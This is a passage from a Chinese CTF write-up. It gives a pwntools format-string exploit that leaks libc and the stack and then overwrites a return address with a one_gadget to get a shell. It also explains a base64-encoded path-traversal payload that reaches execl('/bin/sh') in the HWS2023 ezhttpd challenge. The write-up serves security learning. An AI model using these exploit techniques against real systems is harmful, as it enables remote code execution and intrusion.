 ```python
    b *$rebase(0x13aa)
''')
payload = b'%8$p.%18$p'
sla(b'str: ', payload)
libc.address = int(rc(14), 16) - 0x1e94a0
ru(b'.')
ret_addr = int(rc(14), 16) - 8
one = libc.address + 0xe3b01
pr('libc.address', libc.address)
pr('one', one)
d1 = ((one >> 32) & 0xffff) - ((one >> 16) & 0xffff)
d2 = (one & 0xffff) - ((one >> 32) & 0xffff)

payload = b"%" + str((one >> 16) & 0xffff).encode() + b"c%11$hn" 
payload += b"%" + str(d1).encode() + b"c%12$hn" 
payload += b"%" + str(d2).encode() + b"c%13$hn" 
payload = payload.ljust(0x28, b'a')
payload += p64(ret_addr + 2)
payload += p64(ret_addr + 4)
payload += p64(ret_addr)

#payload = fmtstr_payload(6, {ret_addr:10})
sla("str: ", payload)

shell()
```

### HWS2023_ezhttpd

程序模拟了一个http的服务端。这里本地调试的话需要在当前目录下建立一个htdocs的目录。然后调试的话需要两份脚本，一份用于服务端调试，一份用于做交互。

![image-20230730202017674](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/07/1690719626.png)

进入到start_routine函数里，函数较为复杂，但基本逻辑可以看出是用户向服务端发出GET或POST请求，服务器返回文件。在这里，目录中不可以有诸如..这样的符号，否则程序会直接返回一个200但无用的报文。

![image-20230730202715785](C:\Users\pc\AppData\Roaming\Typora\typora-user-images\image-20230730202715785.png)

用户发送的报文需满足格式，例如要有GET/POST以及Authorization字段。在满足条件后，程序将haystack里的字段进行拼接，并查找文件是否存在，如存在，进入sub_2993函数。

![image-20230730202950100](C:\Users\pc\AppData\Roaming\Typora\typora-user-images\image-20230730202950100.png)

在2993函数里有execl函数可以执行命令。我们只要想办法令传入的参数里有/bin/sh即可获取shell。

![image-20230730203042778](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/07/1690720683.png)

那么漏洞就在于，这里有一个base64的转换。我们将带有..字段的数据进行base64编码后，服务器会为我们解码。然后我们注意到v12和haystack是紧挨着的，意味着我们先输入40个padding字符占据v12后，含有../../../bin/sh的参数会进入haystack里。这里会对haystack是否存在诸如html，js的后缀进行检验，但是也可以加入问号来绕过后缀。总之，payload应该为cyclic(0x40) + base64.encode(../../../../../bin/sh?aaa.html)。

![image-20230730203514771](C:\Users\pc\AppData\Roaming\Typora\typora-user-images\image-20230730203514771.png)
